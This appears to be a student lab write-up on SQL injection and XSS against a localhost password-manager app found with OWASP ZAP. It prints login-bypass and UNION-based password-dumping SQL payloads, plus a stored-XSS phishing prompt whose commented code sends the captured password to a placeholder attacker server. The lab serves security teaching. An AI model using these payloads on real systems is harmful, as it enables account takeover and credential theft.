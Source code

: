 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of the most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

We’ll:
- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.
**Log in as Admin without using their password**
5. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
6. Explore pages, and logout.
7. Login as the Admin without a password using a similar approach. Admin’ --#
8. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**
9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**
12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="100%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*
## Reflection


<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />

